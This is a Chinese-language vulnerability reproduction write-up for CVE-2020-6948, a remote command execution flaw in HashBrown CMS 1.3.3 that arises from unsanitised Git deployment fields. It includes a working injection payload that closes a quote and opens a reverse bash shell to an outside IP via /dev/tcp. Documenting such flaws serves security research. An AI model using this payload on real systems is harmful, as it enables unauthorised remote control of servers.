（CVE-2020-6948）HashBrown CMS 远程命令执行漏洞
===============================================

一、漏洞简介
------------

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS
1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

HashBrown CMS 1.3.3

三、复现过程
------------

在之前收集的资料里面总结了发现漏洞基本有三个方法：

-   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。<https://github.com/wireghoul/graudit>
    这个项目就罗列了很多语言的关键词可以用作参考。

-   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。

-   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown
CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep
之后发现了下面的结果。

![](./resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId25.png)

看来这个应用使用git 相关命令，如果可以传入url
参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js
文件查看源代码。

![](./resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId26.png)

其中可以看到url由username，password，和repro
几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

    https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1

配置如下：

![](./resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId27.png)

然后点击media菜单触发git命令执行

![](./resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId28.png)

接下来在监听的机器上就可以获得shell了

![](./resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId29.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j>
